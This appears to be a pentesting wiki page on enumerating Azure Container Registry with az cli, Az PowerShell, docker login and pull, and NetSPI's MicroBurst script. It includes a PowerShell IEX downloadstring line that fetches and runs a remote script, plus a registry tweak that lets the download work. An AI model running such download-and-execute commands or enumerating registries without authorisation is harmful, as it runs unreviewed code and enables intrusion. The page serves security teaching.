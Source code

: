 # Az - ACR

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

Azure Container Registry (ACR) is a managed service provided by Microsoft Azure for **storing and managing Docker container images and other artifacts**. It offers features such as integrated developer tools, geo-replication, security measures like role-based access control and image scanning, automated builds, webhooks and triggers, and network isolation. It works with popular tools like Docker CLI and Kubernetes, and integrates well with other Azure services.

### Enumerate

To enumerate the service you could use the script [**Get-AzACR.ps1**](https://github.com/NetSPI/MicroBurst/blob/master/Misc/Get-AzACR.ps1):

```bash
# List Docker images inside the registry
IEX (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/NetSPI/MicroBurst/master/Misc/Get-AzACR.ps1")

Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Internet Explorer\Main" -Name "DisableFirstRunCustomize" -Value 2

Get-AzACR -username <username> -password <password> -registry <corp-name>.azurecr.io
```

{{#tabs }}
{{#tab name="az cli" }}

```bash
az acr list --output table
az acr show --name MyRegistry --resource-group MyResourceGroup
```

{{#endtab }}

{{#tab name="Az Powershell" }}

```powershell
# List all ACRs in your subscription
Get-AzContainerRegistry

# Get a specific ACR
Get-AzContainerRegistry -ResourceGroupName "MyResourceGroup" -Name "MyRegistry"
```

{{#endtab }}
{{#endtabs }}

Login & Pull from the registry

```bash
docker login <corp-name>.azurecr.io --username <username> --password <password>
docker pull <corp-name>.azurecr.io/<image>:<tag>
```

{{#include ../../../banners/hacktricks-training.md}}





